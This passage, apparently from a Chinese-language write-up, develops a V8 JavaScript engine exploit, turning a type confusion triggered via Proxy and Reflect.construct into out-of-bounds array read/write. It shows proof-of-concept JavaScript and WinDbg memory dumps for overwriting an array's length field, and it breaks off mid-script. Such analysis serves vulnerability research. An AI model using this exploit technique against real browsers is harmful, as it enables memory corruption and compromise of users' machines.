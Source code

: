 成功了，在`object`数组的视角下，`vuln_array[8]`并没有被赋值，而在`Double`数组的视角下，`vuln_array[8]`即`[elements+8*16]`成功放入了我们的目标值。现在我们已经可以修改一些值了，刚刚说过在将`Double`数组转化为`object`数组的时候，会重新申请内存来保存`elements`的值，如果我们在转化完之后趁热打铁创建一个数组，正好可以放置到这块内存之后，对`poc`进行一些小调整

```javascript
let p = new Proxy(Object, {
	get: () => {
		vuln_array[0] = {};	// 修改之后的类型是HOLEY_ELEMENTS
		oob_array = [1.1];	// 为了修改此数组的length
		%DebugPrint(vuln_array);
		%SystemBreak();
		return Object.prototype;
	}
});
```

现在我们查看一下转化后的数组内存布局：

```shell
DebugPrint: 0000039208085F41: [JSArray]
 - map: 0x039208241909 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x039208208dcd <JSArray[0]>
 - elements: 0x03920808617d <FixedArray[9]> [HOLEY_ELEMENTS]
 - length: 8
 - properties: 0x0392080406e9 <FixedArray[0]> {
    #length: 0x039208180165 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x03920808617d <FixedArray[9]> {
           0: 0x039208086161 <Object map = 00000392082402D9>
         1-5: 0x039208040385 <the_hole>
           6: 0x0392080861b5 <HeapNumber 1.04326e-309>
           7: 0x0392080861a9 <HeapNumber 1.04326e-309>
           8: 0x039208040385 <the_hole>
 }
 
0:000> dd 0x03920808617d-1 L50
00000392`0808617c  080404b1 00000012 08086161 08040385
00000392`0808618c  08040385 08040385 08040385 08040385
00000392`0808619c  080861b5 080861a9 08040385 0804035d
00000392`080861ac  00000000 00018018 0804035d 00000000
00000392`080861bc  00018018 08040a3d 00000002 9999999a
00000392`080861cc  3ff19999 08241891 080406e9 080861c1
00000392`080861dc  00000002								// 只要能覆盖length，就可以达成目的
```

目标已经出现了，但是根据我们刚刚调试的出来的结果（`push`会修改`[elements+8*16]`的值），修改`map`和`properties`并没什么用。如果我们能够修改`length`，就能获得任意长度的`Double`数组，这才是我们想要的，可以通过修改`vuln_array`的参数数量来达到目的。通过调试可以确定`vuln_array`数组的参数个数为`15`的时候`push`的值的低`32`位正好能覆盖到`length`，下面是最终版本的`poc`：

```javascript
// 从类型混淆到越界读写

let vuln_array = [,,,,,,,,,,,, 6.1, 7.1, 8.1];	// 创建时的类型是HOLEY_DOUBLE_ELEMENTS
var oob_array;
vuln_array.pop();
vuln_array.pop();
vuln_array.pop();

function hex(a) {
	return a.toString(16);
}
function empty() {}
function f(p) {
	// 2.42902434121390450978968281326E-319 == 0xC00C
	vuln_array.push(typeof(Reflect.construct(empty, arguments, p)) === Proxy ? 0.2 : 2.42902434121390450978968281326E-319*2);
	for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT
```